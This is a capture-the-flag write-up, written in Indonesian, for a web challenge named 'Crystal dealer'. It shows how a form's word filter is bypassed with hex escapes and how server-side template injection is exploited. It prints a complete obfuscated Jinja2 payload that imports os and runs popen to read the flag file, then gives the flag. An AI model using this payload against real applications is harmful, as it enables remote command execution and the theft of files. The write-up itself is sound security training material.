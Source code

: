 # Crystal dealer

Description:

A: "who the h3ll are you?"

B: "you all know exactly who i am"

Author: Abdieryy

## How to Solve

Diberikan sebuah source code seperti ini

![solve1](images/solve1.jpg)

Disitu terdapat sebuah kata yang terlarang untuk melakukan submit pada form

Namun jika dicoba memasukan `{{7*7}}`, maka SSTI akan terjadi

![solve2](images/solve2.jpg)

Untuk mengatasi hal tersebut kita perlu melakukan bypass kata terlarang dengan (hex)[https://www.freecodecamp.org/news/ascii-table-hex-to-ascii-value-character-code-chart-2/]

```
a = \x61
b = \x62
application = \x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e
```

Dengan mengambil referensi payload dari (PayloadBox)[https://github.com/payloadbox/ssti-payloads]

Maka kita dapat membuat payload seperti ini

```
{{request|attr('\x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('\x63at\x20\x66lag\x5fh31s3NB3rG.txt')|attr('\x72\x65\x61\x64')()}}
```

![solve3](images/solve3.jpg)

```
ARA5{You've_5H0Uldd__W4Tch_th3_S3riE5_NOW!_0x756af8}
```
